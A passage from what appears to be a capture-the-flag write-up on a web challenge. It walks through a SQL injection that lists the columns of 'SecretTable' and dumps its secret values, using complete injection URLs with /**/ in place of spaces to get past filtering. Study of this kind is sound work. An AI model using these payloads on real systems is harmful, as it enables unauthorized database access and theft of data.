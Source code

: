 So the table names were: `DefinitlyNotASecretTable,NotHere,NotThisOne,SameHere,SecretTable` separated with a `,`.

Maybe the most interesting table is `SecretTable`.

Let's get its columns before dumping its data: `select group_concat(column_name) from information_schema.columns where table_schema='MySecretDatabase' and table_name='SecretTable'`

`http://104.43.165.137/?id=7',(select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema='MySecretDatabase'/**/and/**/table_name='SecretTable'),(SELECT/**/USER())),(28,'1`

<p align="center">
<img src="resources/web-1000-empire_total/15.PNG"/>
</p>

So, the column names are `id,secret_name,secret_value` separated with a `,`.

Let's get all the `secret_value` column values: `select group_concat(secret_value) from MySecretDatabase.SecretTable`

`http://104.43.165.137/?id=8',(select/**/group_concat(secret_value)/**/from/**/MySecretDatabase.SecretTable),(SELECT/**/USER())),(1,'1`

<p align="center">